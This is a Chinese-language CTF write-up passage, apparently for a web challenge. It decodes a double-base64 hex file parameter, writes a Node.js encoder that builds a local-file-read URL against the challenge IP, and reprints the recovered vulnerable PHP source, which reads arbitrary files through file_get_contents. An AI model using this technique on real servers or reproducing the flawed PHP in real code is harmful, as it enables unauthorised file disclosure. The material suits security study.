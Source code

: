 ```javascript
atob(atob('TmpZMlF6WXhOamN5UlRaQk56QTJOdz09'))
// <- "666C61672E6A7067"
```

解出的值像是 Hex，尝试用 Node.js 转成字符串：

```javascript
Buffer.from('666C61672E6A7067', 'hex').toString()
// <- 'flag.jpg'
```

嗯哼~ 得到的值与响应体中输出的 `flag.jpg` 一致，猜测可以通过修改 `jpg` 的值输出指定文件内容。

那么首先构造出读取当前页面 (`index.php`) 源文件的地址：

```javascript
const { base64 } = require('../common/utils')

function encode (filename) {
  let hex = Buffer.from(filename).toString('hex')
  return base64.encode(base64.encode(hex))
}

let url = `http://117.51.150.246/index.php?jpg=${encode('index.php')}`
// <- "http://117.51.150.246/index.php?jpg=TmprMlpUWTBOalUzT0RKbE56QTJPRGN3"
```

访问后发现页面上的字符串已经变成 `index.php`；然后提取出 `<img>` 的 `src` 值，[取出 base64 的部分](https://en.wikipedia.org/wiki/Data_URI_scheme#Syntax) 并做解码，便成功得到 [源文件内容](./clues/index.php)：

```php
<?php
/*
 * https://blog.csdn.net/FengBanLiuYun/article/details/80616607
 * Date: July 4,2018
 */
error_reporting(E_ALL || ~E_NOTICE);


header('content-type:text/html;charset=utf-8');
if(! isset($_GET['jpg']))
    header('Refresh:0;url=./index.php?jpg=TmpZMlF6WXhOamN5UlRaQk56QTJOdz09');
$file = hex2bin(base64_decode(base64_decode($_GET['jpg'])));
echo '<title>'.$_GET['jpg'].'</title>';
$file = preg_replace("/[^a-zA-Z0-9.]+/","", $file);
echo $file.'</br>';
$file = str_replace("config","!", $file);
echo $file.'</br>';
$txt = base64_encode(file_get_contents($file));

echo "<img src='data:image/gif;base64,".$txt."'></img>";
/*
 * Can you find the flag file?
 *
 */

?>
```
